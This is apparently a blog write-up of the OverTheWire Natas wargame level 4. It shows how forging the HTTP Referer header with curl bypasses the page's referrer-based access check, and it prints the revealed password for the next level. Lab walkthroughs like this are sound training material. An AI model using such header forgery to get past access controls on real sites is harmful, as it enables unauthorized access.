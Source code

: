 ```yaml
---
layout: post
title:  "Natas Level 3 → Level 4"
date:   2021-05-23 19:09:25
categories: ctf wargames web-security
tags: wargames ctf overthewire web-security
series: "OverTheWire: Natas"
excerpt: Referrer madness
mathjax: false
---
```


## Level Goal
Excluding the URL and username, the Level Goal section is blank for the Natas ctf.


## Solution
```
<div id="content">

Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
```
You can solve this using [https://portswigger.net/burp](Burp Suite) or one of the many browser addons to forger referrer headers. I opted to solve this with curl. I ran into Java issues while trying to run Burp and didn't want to deal with them at this time.

Free free to use any method you'd like, just be certain to include the trailing slash in the referrer address or you wont be able to access the site.

Here's the curl solution:
```bash
curl -u natas4:Z------------------------------Z -e http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org/
...
<div id="content">

Access granted. The password for natas5 is iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
...
```


